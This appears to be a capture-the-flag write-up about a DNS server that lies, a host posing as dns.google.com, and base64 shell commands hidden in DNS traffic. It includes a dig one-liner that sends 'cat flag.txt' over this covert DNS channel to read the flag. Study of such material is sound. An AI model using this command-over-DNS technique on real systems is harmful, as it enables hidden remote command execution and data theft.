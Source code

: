 - DNS query: dns.google.com
  - Returns: **35.188.185.65**

Is **35.188.185.65** actually dns.google.com or is 35.225.16.21 lying to us...

```
dig +short dns.google.com
8.8.8.8
8.8.4.4
```

Seems like it's lying.

Ok, let's see what 35.225.16.21 tells us dns.google.com is right now...

```
$ dig +short dns.google.com @35.225.16.21
3.88.57.227
$ dig +short -x 3.88.57.227
ec2-3-88-57-227.compute-1.amazonaws.com
```

Yeah, I don't think google uses AWS  for their dns... **3.88.57.227** likely in scope for the CTF. Let's check the weird traffic that was going to "dns.google.com" aka 3.88.57.227

Packets 43-44: DNS request to "dns.google.com" - 35.188.185.68 (during capture)
- DNS Request: d2hvYW1pCg==
  - b64 decoded: **whoami**
- DNS Response: cm9vdA==
  - b64 decoded: **root%**

Packets 107-108: DNS request to "dns.google.com"- 35.188.185.68 (during capture)
- DNS Request: bHMgLWxhCg==
  - b64 decoded: **ls -la**
- DNS Response: giant base64 string
  - b64 decoded: 
```
total 2512
drwxr-xr-x    1 root     root          4096 Mar  6 04:44 .
drwxr-xr-x    1 root     root          4096 Mar  6 08:09 ..
-rw-r--r--    1 root     root         12288 Mar  6 04:42 .Makefile.swp
-rw-r--r--    1 root     root           104 Mar  5 23:50 Dockerfile
-rw-r--r--    1 root     root           119 Mar  5 23:50 Makefile
-rw-r--r--    1 root     root            28 Mar  5 23:50 flag.txt
-rwxr-xr-x    1 root     root       2533823 Mar  6 04:44 server
-rw-r--r--    1 root     root          1693 Mar  5 23:50 server.go
```
Okay, seems like "dns.google.com" or 35.188.185.68 was been compromised, and was running a shell that is using the DNS protocol as cover to smuggle traffic.

Lets see if "dns.google.com" - now 35.88.57.227 is also compromised by sending commands to it over DNS.


```
$ dig +short $(echo -n "cat flag.txt" | base64) @3.88.57.227 | sed 's/"//g' | base64 --decode
utflag{$al1y_s3L1S_sE4_dN$}%
```
